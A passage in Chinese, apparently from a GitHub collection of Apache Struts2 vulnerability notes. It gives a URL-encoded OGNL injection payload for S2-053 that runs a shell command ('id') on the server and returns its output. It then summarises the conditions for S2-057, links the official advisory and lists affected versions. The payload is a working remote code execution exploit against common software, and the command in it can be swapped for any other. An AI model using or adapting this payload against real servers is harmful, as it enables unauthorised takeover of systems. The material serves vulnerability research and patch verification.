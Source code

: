 任意命令执行 PoC ，执行 `id` 命令：

```
redirectUri=%25%7B%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23_memberAccess%3F%28%23_memberAccess%3D%23dm%29%3A%28%28%23container%3D%23context%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ognlUtil%3D%23container.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23context.setMemberAccess%28%23dm%29%29%29%29.%28%23cmds%3D%28%7B%27%2Fbin%2Fbash%27%2C%27-c%27%2C%27id%27%7D%29%29.%28%23p%3Dnew+java.lang.ProcessBuilder%28%23cmds%29%29.%28%23process%3D%23p.start%28%29%29.%28%40org.apache.commons.io.IOUtils%40toString%28%23process.getInputStream%28%29%29%29%7D%0A
```

![s2-053-2](images/s2-053-2.png)

## S2-057

当 Struts2 的配置满足以下条件时：

1. `alwaysSelectFullNamespace` 值为 `true`
2. `action` 元素未设置 `namespace` 属性，或使用了通配符

`namespace` 将由用户从 `uri` 传入，并作为 OGNL 表达式计算，最终造成任意命令执行漏洞。

官方公告：[S2-057](https://cwiki.apache.org/confluence/display/WW/S2-057)

### 影响版本

- [x] 小于等于 Struts 2.3.34
- [x] Struts 2.5.16
